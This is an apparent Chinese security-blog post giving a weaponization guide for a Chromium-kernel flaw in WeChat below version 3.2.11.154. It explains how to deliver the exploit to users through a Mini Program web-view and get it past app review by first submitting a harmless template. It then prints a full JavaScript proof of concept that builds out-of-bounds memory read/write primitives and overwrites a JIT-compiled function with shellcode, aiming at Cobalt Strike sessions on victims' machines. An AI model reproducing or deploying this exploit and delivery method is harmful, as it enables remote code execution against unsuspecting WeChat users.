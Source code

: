 # 微信最新版本3.2.11.151 Google内核poc利用上线cs方式
时间：2021年04月20日 分类：[Web安全](https://5i.hk/index.php/category/sec/) 字数：4910 阅读量：214 

微信对版本进行了紧急更新，但是忽略了小程序,依旧可执行shellcode!  
影响版本：＜**3.2.11.154**

1.  首先你需要一个小程序  
    **至于小程序怎么开通 怎么认证各位大佬肯定有招！**
2.  然后你需要跳转你的外部网站  
    附上跳转代码：

    <web-view src="https://www.baidu.com"> </web-view>

![1.png](%E5%BE%AE%E4%BF%A1%E6%9C%80%E6%96%B0%E7%89%88%E6%9C%AC3.2.11.151%20Google%E5%86%85%E6%A0%B8poc%E5%88%A9%E7%94%A8%E4%B8%8A%E7%BA%BFcs%E6%96%B9%E5%BC%8F/2971808239.png)

  
可以再测试页面进行上线测试  
如下:  
 

![2.png](%E5%BE%AE%E4%BF%A1%E6%9C%80%E6%96%B0%E7%89%88%E6%9C%AC3.2.11.151%20Google%E5%86%85%E6%A0%B8poc%E5%88%A9%E7%94%A8%E4%B8%8A%E7%BA%BFcs%E6%96%B9%E5%BC%8F/2628176823.png)

  
配合进程自动迁移，懂的自然懂！  
 

![3.png](%E5%BE%AE%E4%BF%A1%E6%9C%80%E6%96%B0%E7%89%88%E6%9C%AC3.2.11.151%20Google%E5%86%85%E6%A0%B8poc%E5%88%A9%E7%94%A8%E4%B8%8A%E7%BA%BFcs%E6%96%B9%E5%BC%8F/128564997.png)

1.  提交审核（可以随便做一个带内容的H5静态模板提交。审核备注：对小程序展示内容进行更新！）  
    审核通过后直接修改服务器index.html内容即可,然后你的日子就越来越有判头了！

POC没变  
这里是index.html 引用js代码：

    <script src="test.js"></script>

这里是POC test.js文件代码

    ENABLE_LOG = true;
    IN_WORKER = true;
    
    
    var shellcode = [0x11,0x00,0x21];
    
    function print(data) {
    }
    
    
    var not_optimised_out = 0;
    var target_function = (function (value) {
        if (value == 0xdecaf0) {
            not_optimised_out += 1;
        }
        not_optimised_out += 1;
        not_optimised_out |= 0xff;
        not_optimised_out *= 12;
    });
    
    for (var i = 0; i < 0x10000; ++i) {
        target_function(i);
    }
    
    
    var g_array;
    var tDerivedNCount = 17 * 87481 - 8;
    var tDerivedNDepth = 19 * 19;
    
    function cb(flag) {
        if (flag == true) {
            return;
        }
        g_array = new Array(0);
        g_array[0] = 0x1dbabe * 2;
        return 'c01db33f';
    }
    
    function gc() {
        for (var i = 0; i < 0x10000; ++i) {
            new String();
        }
    }
    
    function oobAccess() {
        var this_ = this;
        this.buffer = null;
        this.buffer_view = null;
    
        this.page_buffer = null;
        this.page_view = null;
    
        this.prevent_opt = [];
    
        var kSlotOffset = 0x1f;
        var kBackingStoreOffset = 0xf;
    
        class LeakArrayBuffer extends ArrayBuffer {
            constructor() {
                super(0x1000);
                this.slot = this;
            }
        }
    
        this.page_buffer = new LeakArrayBuffer();
        this.page_view = new DataView(this.page_buffer);
    
        new RegExp({ toString: function () { return 'a' } });
        cb(true);
    
        class DerivedBase extends RegExp {
            constructor() {
                super(
                    {
                        toString: cb
                    }, 'g'
                );
                this_.buffer = new ArrayBuffer(0x80);
                g_array[8] = this_.page_buffer;
            }
        }
        var derived_n = eval(`(function derived_n(i) {
            if (i == 0) {
                return DerivedBase;
            }
    
            class DerivedN extends derived_n(i-1) {
                constructor() {
                    super();
                    return;
                    ${"this.a=0;".repeat(tDerivedNCount)}
                }
            }
    
            return DerivedN;
        })`);
    
        gc();
    
    
        new (derived_n(tDerivedNDepth))();
    
        this.buffer_view = new DataView(this.buffer);
        this.leakPtr = function (obj) {
            this.page_buffer.slot = obj;
            return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
        }
    
        this.setPtr = function (addr) {
            this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
        }
    
        this.read32 = function (addr) {
            this.setPtr(addr);
            return this.page_view.getUint32(0, true, ...this.prevent_opt);
        }
    
        this.write32 = function (addr, value) {
            this.setPtr(addr);
            this.page_view.setUint32(0, value, true, ...this.prevent_opt);
        }
    
        this.write8 = function (addr, value) {
            this.setPtr(addr);
            this.page_view.setUint8(0, value, ...this.prevent_opt);
        }
    
        this.setBytes = function (addr, content) {
            for (var i = 0; i < content.length; i++) {
                this.write8(addr + i, content[i]);
            }
        }
        return this;
    }
    
    function trigger() {
        var oob = oobAccess();
    
        var func_ptr = oob.leakPtr(target_function);
        print('[*] target_function at 0x' + func_ptr.toString(16));
    
        var kCodeInsOffset = 0x1b;
    
        var code_addr = oob.read32(func_ptr + kCodeInsOffset);
        print('[*] code_addr at 0x' + code_addr.toString(16));
    
        oob.setBytes(code_addr, shellcode);
    
        target_function(0);
    }
    
    try{
        print("start running");
        trigger();
    }catch(e){
        print(e);
    }